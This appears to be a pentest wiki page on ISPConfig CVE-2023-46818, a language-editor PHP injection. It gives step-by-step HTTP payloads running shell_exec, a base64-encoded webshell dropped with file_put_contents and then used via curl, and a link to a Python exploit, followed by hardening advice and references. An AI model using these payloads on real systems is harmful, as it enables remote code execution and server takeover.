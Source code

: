 # ISPConfig


## Overview

ISPConfig is an open-source hosting control panel. Older 3.2.x builds shipped a language file editor feature that, when enabled for the super administrator, allowed arbitrary PHP code injection via a malformed translation record. This can yield RCE in the web server context and, depending on how PHP is executed, privilege escalation.

Key default paths:
- Web root often at `/var/www/ispconfig` when served with `php -S` or via Apache/nginx.
- Admin UI reachable on the HTTP(S) vhost (sometimes bound to localhost only; use SSH port-forward if needed).

Tip: If the panel is bound locally (e.g. `127.0.0.1:8080`), forward it:

```bash
ssh -L 9001:127.0.0.1:8080 user@target
# then browse http://127.0.0.1:9001
```
```
## Language editor PHP code injection (CVE-2023-46818)

- Affected: ISPConfig up to 3.2.11 (fixed in 3.2.11p1)
- Preconditions:
  - Login as the built-in superadmin account `admin` (other roles are not affected according to the vendor)
  - Language editor must be enabled: `admin_allow_langedit=yes` in `/usr/local/ispconfig/security/security_settings.ini`
- Impact: Authenticated admin can inject arbitrary PHP that is written into a language file and executed by the application, achieving RCE in the web context

References: NVD entry CVE-2023-46818 and vendor advisory link in the References section below.

### Manual exploitation flow

1) Open/create a language file to obtain CSRF tokens

Send a first POST to initialize the form and parse the CSRF fields from the HTML response (`csrf_id`, `csrf_key`). Example request path: `/admin/language_edit.php`.

2) Inject PHP via records[] and save

Submit a second POST including the CSRF fields and a malicious translation record. Minimal command-execution probes:

```http
POST /admin/language_edit.php HTTP/1.1
Host: 127.0.0.1:9001
Content-Type: application/x-www-form-urlencoded
Cookie: ispconfig_auth=...

lang=en&module=admin&file=messages&csrf_id=<id>&csrf_key=<key>&records[]=<?php echo shell_exec('id'); ?>
```
```
Out-of-band test (observe ICMP):

```http
records[]=<?php echo shell_exec('ping -c 1 10.10.14.6'); ?>
```
```
3) Write files and drop a webshell

Use `file_put_contents` to create a file under a web-reachable path (e.g., `admin/`):

```http
records[]=<?php file_put_contents('admin/pwn.txt','owned'); ?>
```
```
Then write a simple webshell using base64 to avoid bad characters in the POST body:

```http
records[]=<?php file_put_contents('admin/shell.php', base64_decode('PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsiY21kIl0pIDsgPz4K')); ?>
```
```
Use it:

```bash
curl 'http://127.0.0.1:9001/admin/shell.php?cmd=id'
```
```
If PHP is executed as root (e.g., via `php -S 127.0.0.1:8080` started by root), this yields immediate root RCE. Otherwise, you gain code execution as the web server user.

### Python PoC

A ready-to-use exploit automates token handling and payload delivery:
- [[https://github.com/bipbopbup/CVE-2023-46818-python-exploit|https://github.com/bipbopbup/CVE-2023-46818-python-exploit]]

Example run:

```bash
python3 cve-2023-46818.py http://127.0.0.1:9001 admin <password>
```
```
### Hardening

- Upgrade to 3.2.11p1 or later
- Disable the language editor unless strictly needed:

```
admin_allow_langedit=no
```
```
- Avoid running the panel as root; configure PHP-FPM or the web server to drop privileges
- Enforce strong authentication for the built-in `admin` account

## References

- [[https://www.ispconfig.org/blog/ispconfig-3-2-11p1-released/|ISPConfig 3.2.11p1 Released (fixes language editor code injection)]]
- [[https://nvd.nist.gov/vuln/detail/CVE-2023-46818|CVE-2023-46818 – NVD]]
- [[https://github.com/bipbopbup/CVE-2023-46818-python-exploit|bipbopbup/CVE-2023-46818-python-exploit]]
- [[https://0xdf.gitlab.io/2025/08/16/htb-nocturnal.html|HTB Nocturnal: Root via ISPConfig language editor RCE]]

